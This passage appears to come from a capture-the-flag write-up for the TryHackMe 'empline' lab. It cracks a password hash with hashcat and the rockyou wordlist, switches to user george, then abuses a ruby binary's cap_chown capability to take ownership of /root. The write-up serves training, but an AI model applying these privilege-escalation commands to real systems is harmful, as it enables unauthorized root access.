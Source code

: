 ```
┌──(kali㉿kali)-[~/TryHackMe/empline]
└─$ hashcat -a 0 -m 0 creds_hash ~/Wordlists/rockyou.txt
hashcat (v6.2.6) starting
[...]
Dictionary cache hit:
* Filename..: /home/kali/Wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

86d0dfda99dbebc424eb4407947356ac:[REDACTED]
[...]
```

After cracking the password hash into plaintext, use `su` and append the username as **george** to become that user. Then get the user flag:

```
www-data@empline:/var/www/opencats$ su george
su george
Password: [REDACTED]

george@empline:/var/www/opencats$ cd
cd
george@empline:~$ ls -l
ls -l
total 4
-rw-r--r-- 1 root root 33 Jul 20  2021 user.txt
george@empline:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Vertical Privilege Escalation → root

To perform the **Vertical Privilege Escalation**, I enumerate the capabilities vulnerable files:

```
george@empline:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```

The **cap_chown+ep** means this binary could use to change the **ownership** of any file. And because the vulnerable binary is **ruby**, the exploit payload would be:

```
ruby -e 'require "fileutils"; FileUtils.chown(<uid>, <gid> "<target-file>")'
```

I verify my **gid** and **uid** first, then specify them into the payload:

```
george@empline:/var/www/opencats/upload$ id
id
uid=1002(george) gid=1002(george) groups=1002(george)
george@empline:/var/www/opencats/upload$ ruby -e 'require "fileutils"; FileUtils.chown(1002,1002, "/root/")'
< "fileutils"; FileUtils.chown(1002,1002, "/root/")'
```
